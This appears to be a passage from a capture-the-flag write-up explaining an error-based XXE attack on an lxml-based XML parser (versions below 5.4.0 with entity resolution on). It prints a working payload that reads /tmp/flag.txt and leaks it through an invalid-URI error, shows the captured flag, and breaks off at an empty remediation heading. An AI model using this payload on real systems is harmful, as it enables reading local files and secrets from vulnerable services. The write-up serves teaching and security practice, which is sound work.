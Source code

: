 {% endcode %}

The challenge meets both conditions:

-   Using `lxml < 5.4.0`
-   `resolve_entities` is set to `True`

### Error-based data exfiltration

Can we do something similar? Let's try and swap out the values.

{% code overflow="wrap" %}

```xml
<!DOCTYPE colors [
	<!ENTITY % a '
		<!ENTITY &#x25; file SYSTEM "file:///tmp/flag.txt">
		<!ENTITY &#x25; b "<!ENTITY c SYSTEM &#x27;meow://&#x25;file;&#x27;>">
	'>
	%a;
	%b;
]>
<colors><color>&c;</color></colors>
```

{% endcode %}

1. `%file;` reads `/tmp/flag.txt` (still allowed for parameter entities).
2. `%b;` creates a general entity `c` whose SYSTEM URI becomes `meow://<contents-of-flag.txt>`.
3. When the parser meets `&c;` it tries to fetch that URI but fails and raises an error (apparently `meow` is not a real protocol 🙀).
4. The wrapper catches the exception and prints it: `Error : Invalid URI: meow://FLAG{.*}`.

![](./images/1.PNG)

It worked! We get the flag: `FLAG{3rr0r_B4s3d_XX3_w1th_Sw4G}` 😎

## Remediation
